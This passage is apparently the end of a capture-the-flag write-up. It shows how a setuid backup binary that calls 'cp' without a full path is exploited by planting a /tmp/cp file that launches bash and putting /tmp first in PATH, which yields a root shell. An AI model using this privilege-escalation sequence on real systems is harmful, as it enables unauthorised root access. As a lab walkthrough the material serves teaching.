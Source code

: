
I would like to know what this executable does, so I run strings against it. Here I find that it copies all files in the myfiles folder using cp.


```
archangel@ubuntu:~/secret$ strings backup 
/lib64/ld-linux-x86-64.so.2
setuid        
system      
__cxa_finalize                           
setgid                                                                                        
__libc_start_main          
libc.so.6
GLIBC_2.2.5        
_ITM_deregisterTMCloneTable
__gmon_start__           
_ITM_registerTMCloneTable
u+UH                       
[]A\A]A^A_
cp /home/user/archangel/myfiles/* /opt/backupfiles
```


This does not use the full path for cp, which means it is vulnerable to a [Path Variable Privilege Escaltion](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/). By default on linux, most variables are under sbin or bin. However we can create our own path and variable for cp so when we execute this file, it will execute the CP located in our path.

To start, we must craft a file named cp. I did this under the `/tmp` directory

```
archangel@ubuntu:/tmp$ echo "/bin/bash" > cp
archangel@ubuntu:/tmp$ chmod 777 cp
```

Now, I need to change my PATH variable to /tmp

```
archangel@ubuntu:/tmp$ export PATH=/tmp:$PATH
```

With my path changed, when I execute backup, it will look for the cp file under the tmp directory and execute it. Since root owns the file, root will excute it

```
archangel@ubuntu:/tmp$ ~/secret/backup 
root@ubuntu:/tmp#
```

As root, I can now read the final flag

![root](/assets/archangel/root.png)


Exit.py
